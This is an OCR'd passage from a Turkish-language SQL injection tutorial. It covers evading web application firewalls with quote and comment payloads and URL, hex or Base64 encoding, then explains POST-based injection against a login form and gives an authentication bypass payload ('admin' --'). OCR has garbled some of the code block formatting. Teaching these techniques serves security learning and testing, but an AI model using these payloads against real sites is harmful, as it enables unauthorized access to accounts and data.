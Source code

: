 3️⃣ WAF ve Güvenlik Önlemleri Olan Sitelerde SQLi Testi
Bazı web siteleri güvenlik duvarı (WAF) veya filtreleme mekanizmaları kullanır. Bu durumda:
🔹 Karakterleri Bypass Etme:
```sql
sql
id=5' --+
```
id=5'#
id=5" or "1"="1
🔹 Encodings Kullanma:
URL Encoding (%27 yerine ')
Hex Encoding (0x31 yerine 1)
Base64 Encoding



📌 SQL Enjeksiyonu (SQLi) - POST Metodu Üzerinden Saldırı
POST tabanlı SQL Injection, kullanıcının girdiği verilerin HTTP POST isteği ile sunucuya gönderildiği durumlarda ortaya çıkar. Genellikle giriş formları, arama kutuları ve kullanıcı kayıt formları gibi yerlerde görülür.

1️⃣ POST SQL Injection Mantığı
Bir giriş formu düşünelim:
```sql
html
```
<form action="login.php" method="POST">
<input type="text" name="username">
<input type="password" name="password">
<input type="submit" value="Login">
</form>

Eğer arka plandaki SQL sorgusu güvenli değilse, şu şekilde olabilir:
```sql
sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';

```
Bu durumda, username veya password alanına zararlı SQL kodları enjekte edilebilir.

2️⃣ Manuel Olarak POST SQLi Testi
📌 Hedef Site: https://target.com/login.php
📌 POST Verisi:
```sql
plaintext
```
username=admin&password=123456

Test etmek için aşağıdaki zararlı girişler denenebilir:

🔹 1. Şifreyi Atlatma
Eğer uygulama doğrudan SQL sorgusuna değerleri ekliyorsa, şu gibi girişler ile kimlik doğrulama atlanabilir:
```sql
plaintext
username=admin' --
```
password=1234
